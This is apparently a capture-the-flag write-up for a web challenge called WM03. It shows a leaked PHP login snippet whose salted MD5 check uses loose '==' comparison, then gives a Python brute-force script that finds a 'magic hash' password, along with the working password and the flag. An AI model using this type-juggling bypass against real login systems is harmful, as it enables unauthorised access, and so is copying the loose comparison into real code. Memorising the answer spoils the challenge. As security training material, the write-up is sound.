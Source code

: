 # WM03
> 250pts

## Briefing
> Visit the site at https://cfta-wm03.allyourbases.co and find a way to bypass the password check.

## Solution
Going to the source page, we can see that the logic for the login is as below:
```
<!--
        TODO: remove, taken from OSS project, login contains:
        return function ($event) {
            require_once("flag.php");
            $hash = "0e747135815419029880333118591372";
            $salt = "e361bfc569ba48dc";
            if (isset($event['password']) && is_string($event['password'])) {
                if (md5($salt . $event['password']) == $hash) {
                    return $flag;
                }
            }
            return "Incorrect";
        };
    -->
```

We can exploit the comparison ```==```. Essentially, we can find another hash starting with `0e` that will return true if compared using the ```==``` operator to the given hash. There is more information about this here: https://www.whitehatsec.com/blog/magic-hashes/.

Looking at the above logic, we can see that we need a password that when hashed using MD5 and the given salt, returns a hash that begins with `0e` and is 32 digits long, including the `0e`. Hashes cannot be reversed, so we can instead write a python script that will test hashes until we get the correct one (it takes a while so you might want to run it in the background):
```
import hashlib

salt = "e361bfc569ba48dc"

i = 100000000

while 1:
    password = salt + str(i)
    password = password.encode('utf8')

    new_hash = hashlib.md5(password).hexdigest()
    if new_hash[0:2] == "0e" and new_hash[2:32].isdigit():
        print(password, str(i), new_hash)
        exit(0)
    i += 1
```
The output of the script is `b'e361bfc569ba48dc803544664' 803544664 0e664400602231670239629332728713`. We log in with `803544664` and get the flag.

## Flag
Flag: `theLOOSEtheMATH&theTRUTHY`
